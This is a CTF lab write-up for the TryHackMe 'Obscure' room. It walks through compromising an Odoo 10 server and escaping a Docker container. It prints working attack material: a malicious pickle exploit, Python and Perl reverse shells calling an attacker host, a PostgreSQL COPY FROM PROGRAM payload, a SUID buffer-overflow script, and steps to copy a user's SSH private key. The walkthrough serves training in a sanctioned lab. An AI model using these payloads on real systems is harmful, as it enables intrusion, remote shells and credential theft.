






# Room


- **Title:** obscure1.2
- **Name:** Obscure
- **Description:** A CTF room focused on web and binary exploitation.

## Flags

1.  What's the initial flag?
2.  What's the user flag?
3.  What's the root flag?

### Author

- **Name:** [m3gakr4nus](https://tryhackme.com/p/m3gakr4nus)
- **Date:** 2024-07-02

# Flag 1

## Nmap Scan

I first started by running an nmap scan.

```bash
sudo nmap -sS -Pn -T4 -v -p- -A -oN portscan.nmap <target ip>
```

**3 ports** are shown to be open:

- **21/tcp FTP** - vsftpd 3.0.3
- **22/tcp SSH** - OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
- **80/tcp HTTP** - Werkzeug httpd 0.9.6 (Python 2.7.9)  
    

The script scans from Nmap also reveal that **anonymous FTP login is allowed**

## FTP - Anonymous Login

I then connected to the FTP server as `anonymous`

```bash
ftp anonymous@<target ip> # No password required (press enter)
```

There is a directory called `pub` and there are 2 files in it called `notice.txt` and `password`  
I downloaded the files to my local machine for inspection.  


**notice.txt** contents:

> From **antisoft.thm** security,
> 
> A number of people have been forgetting their passwords so we've made a temporary password application.

We can take away two things from this:

1.  The target's domain name: **antisoft.thm** (added this to `/etc/hosts`)

```bash
sudo echo "<target ip> antisoft.thm" >> /etc/hosts
```

2.  The file `password` is an executable which provides users their passwords if forgoten

```bash
file password
```

let's run the `password` binary and see what it does.  
  
It's asking for an employee ID.  
If we can reverse engineer this binary and take a look at the source code, we might find some hard-coded IDs which we can use to retrieve some passwords.

For this task, I use [Ghidra](https://github.com/NationalSecurityAgency/ghidra)

## Reverse engineering - Ghidra ("password" binary)

- I first create a new project in Ghidra  
    `File > New Project > Non-shared Project > (choose a path and project name)`
- Then I import the binary into the project  
    `File > Import File > (select file) > ok`  
    
- Now I open the CodeBrowser by clicking on the green dragon icon  
    
- It then asks if I want to analyse the binary which I then press **yes**

Now form the **Symbol Tree** and then **Funtions** click on the `main` function.

### Code summary - `main` function



- It simply prints two lines two the screen (puts)
- Then takes an input (scanf)
- The input is then passed to a funtion named `pass`

### Code summary - `pass` function



- The user-input is compared with a hard-coded employee ID (strcmp)
- If the comparison results is 0 (true), the password is printed out  
    **Side-note**  
    If you look at the variables above the highlighted code in the picture above, the password is actually right there in hexadecimal.  
    `local_28 + local_20 + local_18` is the password in hexadecimal and in reverse order.  
    I'm not exactly sure why it is in reverse order but I know from previous CTFs that it has something to do with how the system stores each byte in memory ([**big-endian/little-endian**](https://en.wikipedia.org/wiki/Endianness))

Now let's try the employee ID and see what the password is  
  
Perfect, we got a password! But who's password is this and where can we use it?

## HTTP - antisoft.thm

Since we know port 80 is open let's open the website in a browser.  
We are redirected to http://antisoft.thm/web/login  


- We can see that it's running [Odoo](https://www.odoo.com/)

> Odoo is a suite of open source business apps that cover all your company needs: CRM, eCommerce, accounting, inventory, point of sale, project management, etc.

- What really took my attention is the "Manage Databases" option so I clicked on it

It took me to http://antisoft.thm/web/database/manager  


- We can see that it required no authentication whatsoever so we can "Backup" the database and simply dump the content for ourselves
- It then asked me for a **Master Password**  
    
- I simply used the password that I got from the binary in the previous step and it worked
- We are provided with the database dump in a zip file
- Let's unzip the file

```bash
mkdir db && unzip <filename.zip> -d ./db
```

The `dump.sql` file is what we're after  
After cating out the file I realized that it's a huge file to scroll through manually so I used **grep**  
Since we are looking for an email address to login and since we know the domain name is `antisoft.thm` we can simply grep for `antisoft.thm`

```bash
grep -iE "*@antisoft\.thm"
```


- We find an email address called `admin@antisoft.thm`
- We also find a **pbkdf2-sha512 hash** which is a nightmare to crack since it takes a while
- I just tried using the **email address and the password that we already have** and I was able to login  
    

## Reverse shell

My first thought after going through the apps list was to install the "Website Builder" and edit some template php file to add `<?php system($_GET['cmd']); ?>` and get a reverse shell.  
After installing though I couldn't find a way to manually edit any php code. So I started enumerating...

In the `Settings` page we can see that this is `Odoo 10.0`  
  
A quick google search shows that there is a **code execution vulnerability and exploit** for this version.  
**CVE:** `CVE-2017-10803`  
**Exploit-db:** https://www.exploit-db.com/exploits/44064  
**Searchsploit:** linux/local/44064.md

> One of the core Odoo modules, Database Anonymization, allows an administrator to anonymize the contents of the Odoo database. The module does this by serializing the contents of the existing database using Python’s pickle module into a backup file before modifying the contents of the database. The administrator can then de-anonymize the database by loading the pickled backup file.
> 
> Python’s pickle module can be made to execute arbitrary Python code when loading an attacker controlled pickle file. With this, an administrator can execute arbitrary Python code with the same privilege level as the Odoo webapp by anonymizing the database then attempt the de-anonymization process with a crafted pickle file.

### PoC:

```python2
import pickle # change this from 'cPickle'
import os
import base64
import pickletools

class Exploit(object):
    def __reduce__(self):
        # Run a python server on your local machine "python3 -m http.server 80"
        # Use curl to see if payload is being executed
        return (os.system, (("curl <attacker ip>/test"),))

with open("exploit.pickle", "wb") as f:
    pickle.dump(Exploit(), f, pickle.HIGHEST_PROTOCOL)
```

To save you some headache, following the PoC I kept getting an error saying `TypeError: 'bool' object is not iterable` and I wasn't getting a reverse shell.  
After trying for hours and giving up, I found [this write-up](https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-rooms/obscured.md) explaining that:

- This error happens and can be ignored
- You should use python2.7 on the PoC code
- The target site is running on a restricted docker container which means many common tools will not be present. E.g., no wget, no advanced version of bash or whatever.

For some reason it never occured to me to test the payload to see if I can either ping myself or something. Anyway, moving on...

After testing the payload and seeing that it's being executed, I replaced the curl payload with a python reverse-shell payload since I know python is installed on the server

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>", <attacker_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And we're in...  


```bash
python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
# Background the shell by pressing CTRL+Z
stty raw -echo && fg
```

- We have a reverse-shell as the user `odoo`
- The fist flag can be found inside its home directory  
    

# Flag 2

Let's get `linpeas` and `pspy` onto the machine

```bash
python3 -m http.server 80 # Attacker machine (run inside linpeas and pspy direcory)
curl <attacker_ip>/linpeas.sh -o linpeas.sh
curl <attacker_ip>/pspy64 -o pspy
chmod 700 linpeas.sh pspy
```


## Linpeas

  
We can see `nmap` and `nc` are on the machine  
  
We also notice that `/proc` is mounted from the host  
  
and that we have `dac_override` capability inside this container  
  
I noticed that the postgresql is hosted on another host (container)  
What really caught my attention was this unknown SUID binary identified by linpeas  
  
Let's run it...  


- The binary gives us a hint to exploit it to "get on the box"
- It simply quits whenever an input is provided
- Let's download the binary to our local machine and inspect it

```bash
nc -lvnp 8080 < /ret # run on victim
```

```bash
nc <target_ip> <target_port> > ./ret # run on attacker machine
```

## Reverse engineering - Ghidra ("ret" binary)

- The main function simply executes a function called `vuln`
- We can see that the `vuln` function is using `gets` (a vulnerable function to buffer-overflow attacks) to get user input
- The variable that the user-input is saved into has been allocated a total of 128 bits  
    
- We can also see another function called `win` which executes a shell for us  
    
- So if we are able to overflow the binary and replace the return address of the vuln function (normaly `main`) with `win`, we can execute bash and get ROOT access to the container since the binary has the SUID bit set.

## Buffer-overflow - rooting the container

- Testing the binary shows that it crashes if the input is 136 bits long  
    
- Adding 1 more byte to the input (4 bits / 4 more 'A') replaces the return address (41414141) is 'AAAA' in hexadecimal  
    

```bash
python3 -c "print(bytes.fromhex('41414141'))"
```

Now all we have to do is find the memory address of the `win` function and add it to our initial 136-bit long payload which overflows the binary.  
For that we can either use ghidra or objdump

### ghidra - `win` function's memory address


### objdump - `win` function's memory address

```bash
objdump -d ./ret | less
/win # 'find' function for 'less'
```


Now we can write a quick exploit to replace the return address to `00400646`  
Here is the exploit that I came up with

```python
import sys
import codecs

# The memory address of the function that we want to execute = 00400646 in hexadecimal
# [::-1] reverses the address (little-endian)
win_function_mem_address = b"\x00\x40\x06\x46"[::-1]

# 136 bits causes segmentation fault
payload = b"A" * 136

# Add the target function's memory address to the payload
payload += win_function_mem_address

# Use sys to make sure python properly outputs byte-strings
ascii_stdout = codecs.getreader("ascii")(sys.stdout, errors="strict")

ascii_stdout.write(payload)
```

- After trying this exploit locally it wasn't really working
- So I decided to just get it onto the target machine and try it there
- That's when I was reminded that python3 is not installed in the container
- Initially I wrote this exploit with python3 in mind which you can simply use the following to output the payload in the write format:

```python3
sys.stdout.buffer.write(payload)
```

- So with some research (Stackoverflow), I re-wrote the exploit in python2
- After running the exploit on the target machine we can see that we are able to execute commands and that we have the **EUID 0**
- Unfortunately we didn't see the nice "congratulation..." message that we saw in the source code :(
    - You can type 'exit' and hit enter once you run the exploit to see the message if you really want to :)


```bash
(python ./exp.py; cat) | /ret
```

- Here we use `(python ./exp.py; cat)` to keep the shell's file-descriptors open so we can interact with the system
- A normal execute and pipe closes the file-descriptors and it just shows us a segmentation fault
- In order to get **UID 0** we can do this

```bash
python -c "import pty; import os; os.setuid(0); pty.spawn('/bin/bash')"
```


- Looking at root's home directroy we can see a file called `flag.txt`
- cating the file out, we see the following message:

> Well done,my friend, you rooted a docker container.

  
Well, thank you but I was expecting a damn flag here... :(

## Container escaping

To save you some headache I spent hours trying to find ways using the mounted `/proc` to escape the container  
The **release_agent** technique doesn't work since the cgroup can't be mounted (permission denied)  
I went as far as compromising the host that the DBMS was running on with no luck

### Side-note - Postgresql RCE

If you look at the `odoo` user's environment variables the database credentials are all there and you can connect to the database using the command below:

```bash
psql -h 172.17.0.2 -U odoo -d main # I used --list to list all DBs and found `main` first
# Then enter the DB password in the environment variable
```

Now you can use this technique to run system commands within the postgresql DBMS:

```SQL
CREATE TABLE cmd(output text);
COPY cmd FROM PROGRAM 'id'; -- make sure you're using single-quotes
SELECT * FROM cmd;
```


- Just to let you know, python is not on the target at all but perl is
- Here is a usefull perl reverse shell payload which you replace with the 'id' above:

```perl
use Socket;$i="<attacker ip>";$p=<attacker prt>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};
```

```SQL
-- I base64-encoded the above payload to avoid escaping every single-quote
-- Before encoding it I placed the payload like this: perl -e '<payload>'
-- The final payload/query is this:
COPY cmd FROM PROGRAM 'echo <base64_payload> | base64 -d | bash';
```


## Pivoting / Container escape

After remembering that the `nmap` was on the box for some reason, I decied to use it and find other online hosts on the subnet

```bash
nmap -sn -PE 172.17.0.0/16 -T4 # Host discovery
```


- Here we find the host `172.17.0.1`
- From the domain name I suspect that this is the host
- Let's scan it and find it's open ports

```bash
nmap -sS -Pn -v -T4 -A 172.17.0.1 # Port and service scan
```

- After seeing the port scan results and connecting to the FPT and seeing the same directory and files we saw on the host, my suspisions were confirmed
- We see that the port **4444** is open but we didn't see this port on our initial scan of the host
- That is because the port is only accessible localy (127.0.0.1:4444) and not (0.0.0.0:4444)  
    
- Let's use the available `nc` on the container to see what is running on that prot

```bash
nc 172.17.0.1 4444
```


- We see something familiar (I think you already know what we have to do to escape the container XD)

All we have to do now is to run our exploit against this host

```bash
(python ./exp.py; cat) | nc 172.17.0.1 4444
```

aaaaaand we have successfully escaped the contianer:  


- We are get access as a user called `zeeshan`
- You can find their private SSH key in their home folder
- let's copy it to our machine and connect to the host via SSH  
    

```bash
cat .ssh/id_rsa
# Copy the content
nano id_rsa # Paste content here on your attacker machine then CTRL+O to save and CTRL+x to exit
chmod 600 id_rsa # Otherwise ssh won't use it
ssh zeeshan@antisoft.thm -i ./id_rsa
```

- We also see the file `user.txt`, let's cat it and get our flag  
    
